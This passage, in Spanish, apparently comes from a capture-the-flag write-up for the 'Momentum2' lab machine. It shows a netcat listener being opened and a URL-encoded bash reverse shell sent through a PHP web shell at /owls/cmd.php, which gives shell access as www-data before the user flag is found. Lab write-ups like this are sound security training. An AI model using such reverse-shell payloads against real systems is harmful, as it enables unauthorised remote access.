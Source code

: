 Nos Dirigimos a el directorio */owls* de la web y aqui podemos ver el archivo.

![img](/assets/img/post/momentum2/owls.png)

vamos a nuestro archivo php y generamos la revshell.

Nos ponemos en escucha:
```bash
❯ nc -nlvp 443
listening on [any] 443 ...
```

Y lanzamos revshell.

```
http://192.168.1.10/owls/cmd.php?cmd=bash%20-c%20%22bash%20-i%20%3E%26%20/dev/tcp/192.168.1.7/443%200%3E%261%22
```
Ya tenemos acceso como www-data.
```bash
bash-5.0$ whoami
whoami
www-data
```

Nos vamos al directorio home y user athena.

Ya tenemos la flag user:

![img](/assets/img/post/momentum2/user.png)
